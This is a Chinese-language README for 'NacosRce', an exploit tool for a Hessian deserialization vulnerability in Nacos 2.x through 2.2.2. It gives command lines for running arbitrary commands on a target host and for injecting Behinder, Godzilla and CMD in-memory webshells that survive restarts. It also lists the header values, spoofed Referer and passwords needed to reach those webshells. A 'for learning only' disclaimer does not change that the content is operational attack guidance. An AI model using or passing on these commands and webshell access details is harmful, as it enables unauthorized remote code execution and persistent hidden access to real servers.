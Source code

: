## Nacos Hessian 反序列化漏洞利用工具 v0.4

```latex

  _   _                     ____          
 | \ | | __ _  ___ ___  ___|  _ \ ___ ___ 
 |  \| |/ _` |/ __/ _ \/ __| |_) / __/ _ \
 | |\  | (_| | (_| (_) \__ \  _ < (_|  __/
 |_| \_|\__,_|\___\___/|___/_| \_\___\___|
```
<br />Author: 刨洞安全 && 凉风<br />
<br />注意：工具仅供学习使用，请勿滥用，否则后果自负！

<br />**食用方式 **<br />
1. 执行无回显命令（不推荐，因为每次重启nacos都会自动执行一次）
   <br />java -jar NacosRce.jar ip:port "command"
2. 同时注入冰蝎&哥斯拉&CMD内存马（推荐，重启后自动注入内存马）
   <br />java -jar NacosRce.jar ip:port memshell
3. 如果nacos是windows的：
   <br />java -jar NacosRce.jar ip:port memshell windows

<br />内存马说明：
<br />一、冰蝎内存马：
   <br />1、需要设置请求头x-client-data:rebeyond
   <br />2、设置Referer:https://www.google.com/
   <br />3、路径随意
   <br />4、密码rebeyond
   ![img.png](img.png)
<br />二、哥斯拉内存马：
   <br />1、需要设置请求头x-client-data:godzilla
   <br />2、设置Referer:https://www.google.com/
   <br />3、路径随意
   <br />4、密码是pass 和 key
<br />![img_1.png](img_1.png)
<br />三、CMD内存马：
   <br />1、需要设置请求头x-client-data:cmd
   <br />2、设置Referer:https://www.google.com/
   <br />3、请求头cmd:要执行的命令
<br />![img_2.png](img_2.png)
v0.4版本实现了：
<br />1、不出网漏洞利用
<br />2、可多次发起漏洞利用
<br />3、注入冰蝎/CMD内存马
<br />4、内存马对多版本进行了兼容
<br />5、修复windows的bug
<br />tips:
<br />1、请用jdk1.8
<br />2、适用于 Nacos 2.x <= 2.2.2
<br />3、非集群的也能打哦
<br />4、此内存马重启nacos依然存活

项目地址：https://github.com/c0olw/NacosRce
<br />参考文章
<br />[https://gv7.me/articles/2020/semi-automatic-mining-request-implements-multiple-middleware-echo/](https://gv7.me/articles/2020/semi-automatic-mining-request-implements-multiple-middleware-echo/)
<br />[https://exp.ci/2023/06/14/Nacos-JRaft-Hessian-反序列化分析/](https://exp.ci/2023/06/14/Nacos-JRaft-Hessian-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%88%86%E6%9E%90/)
<br />[https://github.com/Y4er/ysoserial](https://github.com/Y4er/ysoserial)
